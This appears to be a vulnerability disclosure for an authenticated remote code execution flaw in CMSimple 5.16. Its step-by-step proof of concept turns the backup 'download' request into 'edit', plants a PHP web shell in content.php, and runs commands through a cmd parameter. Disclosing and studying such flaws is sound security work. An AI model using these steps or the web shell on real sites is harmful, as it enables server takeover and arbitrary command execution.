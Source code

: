 
## Basic Info

- **Exploit Title:** CMSimple 5.16 backup file RCE (Authenticated)
- **Exploit Author:** h4ckr4v3n
- **Vendor Homepage:** https://www.cmsimple.org/
- **Version:** 5.16
- **Tested on:** Ubuntu 22.04/PHP 7.4/Nginx 1.18.0

## Description
Functionality of downloading php backup files in CMSimple 5.16 allows a user with administrator rights to inject and execute arbitrary php code

## Proof of Concept

1) Log In as Administrator.
2) Navigate to "Backup" tab.
3) Click on "download" button near content or pagedata file and intercept outgoing request.
4) Change GET request `/?file=content&action=download` to    `/?file=content&action=edit`
5) In code editor delete PHP-code to access file directly and put your payload: `<?php system($_GET['cmd']);?>`
6) Save file.
7) Now you can execute commands via cmd parameter: `/content/content.php?cmd=id`
![cmsimpl_backup_rce1](https://github.com/user-attachments/assets/b239704d-e2be-4ca7-a5a5-b9551236ff6c)
![cmsimpl_backup_rce2](https://github.com/user-attachments/assets/62a45dfd-e796-4427-991f-abded87cf7f6)
![cmsimpl_backup_rce3](https://github.com/user-attachments/assets/eae8df71-8538-4f8d-a805-def91e9ddbc2)
![cmsimpl_backup_rce4](https://github.com/user-attachments/assets/b6cb759c-5e51-4c68-a148-a51133fd1159)
